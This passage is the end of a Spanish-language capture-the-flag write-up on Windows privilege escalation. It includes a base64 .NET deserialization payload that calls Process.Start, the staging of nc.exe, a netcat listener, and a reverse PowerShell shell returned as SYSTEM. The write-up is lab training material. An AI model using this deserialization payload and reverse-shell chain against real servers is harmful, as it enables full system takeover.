ZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw==
```

Ahora vamos a mover `netcat` a un directorio público como hemos puesto en mi payload para evitar problemas, en mi caso `C:\Users\Public\Documents`
```console
PS C:\users\public\documents> dir
dir


    Directory: C:\users\public\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       18/12/2024     16:20          59392 nc.exe
```

Ahora nos ponemos en escucha con `netcat` por el puerto 443.
```console
rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora enviamos una solicitud al servidor con el código `UPLOAD_ORDER;PAYLOAD` que es lo que habíamos visto antes en el análisis del código y vemos que nos devuelve un error de deserialización.


Pero vemos que recibimos la conexión y somos `nt authority\system` por lo cual ya habríamos escalado privilegios.
```console
rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.197] from (UNKNOWN) [10.129.108.148] 55424
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

Podemos ver la flag de `root`
```console
PS C:\users\administrator\desktop> type root.txt
type root.txt
eb5ca5f6aa15e8...
```

¡Y ya estaría!

Happy Hacking! 🚀
